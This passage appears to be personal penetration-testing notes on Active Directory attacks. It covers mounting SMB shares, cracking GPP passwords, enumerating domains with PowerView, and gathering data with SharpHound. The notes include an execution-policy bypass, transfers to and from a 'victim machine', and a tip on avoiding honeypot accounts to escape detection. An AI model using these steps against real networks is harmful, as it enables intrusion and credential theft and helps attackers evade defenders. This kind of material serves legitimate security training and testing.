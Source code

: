 ### Mount SMB Share
`sudo mount -t cifs -o 'username=<username>,password=<password>' //<IP>/<Share you want to mount> /mnt/<folder to mount to>`

### Cracking GPP Password/Hash
this is some sort of cpassword or something

`gpp-decrypt <hash>`

# AD Enumeration (Post Compromise)

### Powerview

Quick Commands:

- `Get-NetDomain`

- `Get-NetDomainController`

- `Get-DomainPolicy`

- `(Get-DomainPolicy)."system access"`

- `Get-NetUser | select <command> eg select cn, description`

- `Get-userProperty -Properties pwdlastset`

- `Get -UserProperty -Properties logoncount` : don't attack accounts with low logoncount because they might be honeypot account. As soon as you compromise it, the security team will be alerted of your presence.

You can find a whole powerview cheatsheet here: [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Bloodhound

1. Connect to the database by running: `sudo neo4j console`
2. run `bloodhound` in new tab
3. Transfer the SharpHound.ps1 script to the victim machine and invoke powershell using `powershell -ep bypass`
4. Import the module: `. .\SharpHound.ps1`
5. Collect the data: `Invoke-BloodHound -CollectionMethod All -Domain SCRIPTKIDDIEHUB -ZipFileName tadi.zip`

or use `SharpHound.exe -c All`

Transfer the zip file to your attacker machine and upload it to bloodhound where it will put it all in graphs